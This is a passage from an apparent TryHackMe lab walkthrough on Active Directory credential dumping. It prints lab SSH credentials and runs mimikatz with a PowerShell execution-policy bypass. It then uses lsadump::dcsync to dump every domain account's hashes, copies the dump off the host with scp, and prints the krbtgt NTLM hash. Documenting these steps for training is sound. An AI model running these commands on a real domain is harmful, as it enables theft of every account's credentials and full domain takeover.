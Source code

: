 ### Practical

***

Let's begin by going into ssh using the administrator credentials:

```
ssh za\\Administrator@thmwrk1.za.tryhackme.loc

# Password is: tryhackmewouldnotguess1@
```

Once on here, we need to start mimikatz, use this one since the `x64` version is kind of bugged and can freeze the ssh session:

```powershell
powershell.exe -ep bypass
C:\Tools\mimikatz_trunk\WIN32\mimikatz.exe
```

Now, once this works, we need to do:

```powershell
lsadump::dcsync /domain:za.tryhackme.loc /user:OUR_PROVIDED_USER
```

Nice, we will get something like this:

!\[]\(Pasted image 20250527231618.png)

We need to enable logging on mimikatz:

```
log USERNAME_dcdump.txt 
```

Now, let's do:

```
lsadump::dcsync /domain:za.tryhackme.loc /all
```

This will take some time, once it finishes, we can download the file using scp:

```bash
scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/LOG_NAME .
```

In this case I did:

```
scp administrator@za.tryhackme.loc@thmwrk1.za.tryhackme.loc:C:/Users/Administrator.ZA/chloe.potter_dcdump.txt .
```

We can use a code editor to check for the hash:

!\[]\(Pasted image 20250527232844.png)

Or we can use grep:

```bash
grep -i "krbtgt" username_dcdump.txt -A 100 | grep -i -m 1 "Hash NTLM"

Hash NTLM: 16f9af38fca3ada405386b3b57366082
```

